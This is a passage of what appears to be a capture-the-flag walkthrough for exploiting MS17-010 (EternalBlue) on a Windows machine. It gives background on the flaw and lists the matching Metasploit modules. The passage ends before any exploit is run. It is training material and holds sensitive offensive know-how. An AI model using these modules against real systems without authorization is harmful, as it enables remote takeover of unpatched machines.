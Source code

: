     |_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    
    Nmap done: 1 IP address (1 host up) scanned in 24.85 seconds
    

## Shell as System

### Background

MS-17-010, otherwise known as ETERNALBLUE, is a unauthenticated remote code
execution vulnerability in Windows SMB most famous for it’s leak by the
[Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) and for
driving the
[WannaCry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) worm in
May 2017.

The exploits in Metasploit for MS17-010 are much more stable than the Python
script counterparts. If you’re doing this in the real world, I’d strongly
recommend using Metasploit here. If you’re doing this for some kind of
training activity that doesn’t allow Metasploit (like OSCP), then the downside
of crashing a few boxes acceptable. I’ll show both.

### Metasploit

The easiest way to pull this off is with Metasploit. I’ll start it with
`msfconsole`, and then search for `MS17-010`:

    
    
    msf6 > search ms17-010
    
    Matching Modules
    ================
    
       #  Name                                           Disclosure Date  Rank     Check  Description        
       -  ----                                           ---------------  ----     -----  -----------        
       0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
       2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
       3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
       5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
    
    
    Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce
    